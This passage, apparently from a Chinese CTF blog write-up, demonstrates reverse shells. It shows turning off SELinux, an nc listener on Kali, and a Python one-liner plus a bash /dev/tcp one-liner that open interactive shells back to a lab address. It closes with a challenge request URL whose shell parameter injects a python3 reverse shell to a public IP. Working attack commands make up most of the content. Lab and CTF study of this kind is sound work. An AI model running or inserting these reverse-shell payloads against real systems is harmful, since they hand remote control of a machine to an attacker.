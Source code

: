 我们首先

设置centos防火墙

```cobol
setenforce 0   //设置SELinux 成为permissive模式 临时关闭selinux的 
service iptables status  //查看防火墙状态
```

然后kali通过nc监听

centos通过 反弹shell

```cobol
//kali使用nc进行对本机的4444端口进行监听：
nc -lvvp 4444
//目标主机执行下面python命令：
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.48.130",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/196f09be12a1482abb187a4f56a50057.png" alt="" style="max-height:173px; box-sizing:content-box;" />


发现成功获取了 终端控制



<img src="https://i-blog.csdnimg.cn/blog_migrate/27e5b85abb756adc3a3dab0171d66595.png" alt="" style="max-height:255px; box-sizing:content-box;" />


## bash反弹shell

同样我们先要获取bash

centos中



<img src="https://i-blog.csdnimg.cn/blog_migrate/fd49221355ca10944a9cb4a20786b859.png" alt="" style="max-height:131px; box-sizing:content-box;" />


```cobol
nc -lvvp 4444  #kali
bash -i >& /dev/tcp/192.168.48.130/4444 0>&1   #centos
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/64d2b4f278f2bc53ec89ea115f2105bc.png" alt="" style="max-height:117px; box-sizing:content-box;" />


成功获取

这里我们回到做题

kali中开始监听 然后通过python执行反弹shell命令即可

```cobol
/no_one_know_the_manager?key=zBsgJNHfXv01kvfGS0c0B9UxLVTYcpCK73NVovFs/cE=&shell=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("112.74.89.58",41871));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
